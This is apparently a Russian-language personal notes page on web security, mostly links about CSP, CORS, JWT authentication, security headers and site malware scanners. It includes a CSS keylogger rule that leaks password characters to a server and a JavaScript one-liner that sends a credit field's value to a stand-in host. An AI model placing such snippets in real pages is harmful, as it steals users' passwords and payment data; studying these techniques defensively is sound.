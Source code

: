 #  security

 * https://www.html5rocks.com/en/tutorials/security/content-security-policy/
 * [случайные числа](https://medium.com/@frontman/случайные-числа-не-случайны-252e08e60828/)
 * [css кейлоггер](http://css-live.ru/articles-css/storonnij-css-nebezopasen.html)
 * https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css
 * [https](https://www.troyhunt.com/the-6-step-happy-path-to-https/)
 * [сканер уязвимостей](https://snyk.io/)
 * [поле ввода пароля](https://www.troyhunt.com/bypassing-browser-security-warnings-with-pseudo-password-fields/)
 * [технологии аутентификации](https://github.com/teesloane/Auth-Boss)
 * [web checklist 2017](https://simplesecurity.sensedeep.com/web-developer-security-checklist-f2e4f43c9c56)
 * [Топ-25 программных ошибок, составленный CWE/SAN;](http://cwe.mitre.org/top25/#Listing)
 * [Топ-10 угроз безопасности веб-приложениям, составленный OWASP.]()
 * [оценка безопасности ПО](https://tproger.ru/translations/measuring-the-security-of-your-software/)
 * http://tproger.ru/tag/safe-code/
 * [Анализ уязвимостей процесса аутентификации](https://bmsdave.github.io/blog/auth-vulnerabilities/)

```css
input[type="password"][value$="A"] { background-image: url("http://localhost:3000/A"); }

body { 
  font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif;
}
```
 * https://css-tricks.com/snippets/css/font-stacks/
 

## Теория

 * [Учебное пособие по защите информации кафедры радиотехники и систем управления МФТИ](https://github.com/vlsergey/infosec)

## платежи payments

 * [Как работает безопасный прием платежей в интернет-магазине](https://habr.com/ru/post/241413/)
 * [invoices workflow](https://stripe.com/docs/billing/invoices/workflow)

## cors

 * https://fetch.spec.whatwg.org/#concept-http-fetch
 * https://fetch.spec.whatwg.org/#concept-request-mode
 * http://grishaev.me/cors
 * http://restlet.com/company/blog/2015/12/15/understanding-and-using-cors/
 * https://www.html5rocks.com/en/tutorials/cors/
 * маскируемся под форму:
 ```
 POST
 data: "user=111&PWD=1111"
 'Content-Type': 'application/x-www-form-urlencoded'
 ```
 * [расширение хрома](https://github.com/chrisdeely/ForceCORS)
    * https://chrome.google.com/webstore/detail/forcecors/oajaiobpeddomajelicdlnkeegnepbin
 * [втыкаем прокси для вебпака](https://github.com/angular/angular-cli/blob/master/docs/documentation/stories/proxy.md)
 ```
	const PROXY_CONFIG = [
			{
			"/server": {
				"target": "https://server:8081/api",
				"secure": false,
				"changeOrigin": true,
				"index": "",
				"host": "server:8081/",
				"logLevel": "debug",
				"pathRewrite": {
					"^/server": ""
			}
		}
	]

	module.exports = PROXY_CONFIG;
 
 ng serve --proxy-config proxy.conf.js
 ```
 * [заголовки http](https://www.w3.org/TR/cors/#syntax)
 * проверка
 ```bash
 curl -v 'http://8.8.8.8:8080/index.html' --data 'user=11111&pass=22222' -H 'Content-Type:application/x-www-form-urlencoded'
 curl -v 'http://8.8.8.8:8080/index.html?user=11111&pass=22222' -H 'Content-Type:application/json'
 ```
 * [сценарии атак на cors](https://www.securitylab.ru/analytics/498754.php)
 

##  авторизация и аутентификация

 * [обзор видов авторизации](https://flowers-for-all.com/post/28443)
 * [jwt](https://habrahabr.ru/company/Voximplant/blog/323160/)
 * https://habrahabr.ru/company/Voximplant/blog/323160/
 * Разница между access_token и refresh_token

	```
		— access_token не нужно хранить в базе данных, с помощью JWT можно хранить данные в токене — например userId, таким образом при каждом запросе к серверу мы избавляемся от лишнего запроса к базе данных так как ID юзера можно получить из токена
		— refresh_token хеш который хранится в базе данных.
		1. Сервер получает логин/пароль — создает access_token и refresh_token, сохраняет в базу refresh_token, отдает токены на клиент
		2. Клиент использует access_token для доступа к данным пока приложение не будет закрыто, сохраняет refresh_token в хранилище
		3. Если получает от сервера сообщение что срок access_token истек — отправляет запрос на авторизацию с refresh_token, если refresh_token не истек и совпадает с тем что в базе — сервер создает access_token и refresh_token, обновляет в базе refresh_token и отдает на клиент. Если refresh_token не валиден просит ввести логин/пароль
		4. При инициализации приложения если есть refresh_token — делает тоже что и в 3 

		1. refresh_token- это креденшалы для доступа в API при отсутствии сессии юзера. access_token — короткоживущий токен для доступа к ресурсу.
		2. Разные требования к хранению и передаче(и выдаче). То есть узнать refresh_token вы обычно не можете, так как он не гоняется через front channel.
		3. Работу с общей сессией лучше делегировать на ваш IdP/AS/OP по выбору. 

		Если у вас задача аутентификации и авторизации в API и ваши клиенты это серверные приложения, то у вас есть так называемый Client credentials flow. И вам не нужен рефреш в принципе. Просто смотрите за лайфтаймом токена и обновляете его по необходимости.
		Если есть возможность использования сертификатов, то есть client assertion grant: клиент генерирует JWT токен со своей информацией и подписывает его своим приватным ключиком. Сервер валидирует его, проверяет публичную часть (что у регистрации клиента привязан этот сертификат) и если все ок, выдает уже access_token для доступа в API.

		Если веб(SPA) или есть webview то implicit flow. Получаете access_token и вперед в API. Как протухнет — редирект за обновлением или тихонечко в айфрейме запросик. Можно поковырять кишки вот тут.
		https://github.com/AzureAD/azure-activedirectory-library-for-js/tree/dev/lib
	```
 * [Как надо хешировать пароли и как не надо](https://habr.com/ru/post/210760/)
 * [Обзор способов и протоколов аутентификации в веб-приложениях](https://habr.com/ru/company/dataart/blog/262817/)
 * [Как ты реализуешь аутентификацию, приятель?](https://habr.com/ru/company/mailru/blog/343288/)
 * [Курс MIT «Безопасность компьютерных систем». Лекция 17: «Аутентификация пользователя», часть 1](https://habr.com/ru/company/ua-hosting/blog/429680/)
 * [Классификация механизмов аутентификации пользователей и их обзор](https://habr.com/ru/post/177551/)
### беспарольная авторизация

 * [webauthn/CTAP](https://habr.com/company/1cloud/blog/353966/)
 * [по почте](https://habrahabr.ru/post/279173/)

##  web sec

* [How to Implement Security HTTP Headers to Prevent Vulnerabilities](https://geekflare.com/http-header-implementation/)
* [Как использовать HTTP заголовки для предупреждения уязвимостей](https://habr.com/ru/company/hosting-cafe/blog/315802/)
	* `X-Content-Type-Options: nosniff`
* https://habrahabr.ru/company/ruvds/blog/346442/

```js
var devtools = /./;
devtools.toString = function() {
  this.opened = true;
}

console.log(devtools);

if (devtools.opened === true) {
    alert('Панель разработчика открыта');
} else {
    alert('Панель разработчика закрыта');
}
```

```js
let img=new Image(); img.src="https://LULsite.com/?credit="+$('.credit')[0].value;
```

 * https://dzone.com/articles/advanced-web-security-topics
 * https://firstwiki.ru/index.php/Поиск_вирусов_на_сайте/
 * http://www.webhostingbuzz.com/wiki/iframe-injection-hack-recovery/
 * https://firstwiki.ru/index.php/Аудит_безопасности/
 * [Поиск malware/вирусов на сайте 2014](https://kamaok.org.ua/?p=570)
 * [взлом и безопасность веб-сайтов school-php.com](https://www.youtube.com/watch?v=ll9ZqAk70kk)

## сканеры

 * https://rescan.pro/
 * [google dorks scanner](https://habrahabr.ru/post/283210/)
 * [linux malware detect](firstwiki.ru/index.php/Поиск_различных_malware_скриптов/)
 * [aibolit](http://www.revisium.com/ai/)
 * http://online.drweb.com/?url=1
 * http://antivirus-alarm.ru/
 * http://xseo.in/viruscan
 * http://2ip.ru/site-virus-scaner/
 * [owasp](https://www.owasp.org/index.php/OWASP_Xenotix_XSS_Exploit_Framework#Screenshots)

 ## DPI/DLP

  * https://github.com/ValdikSS/GoodbyeDPI
  * https://github.com/bol-van/zapret
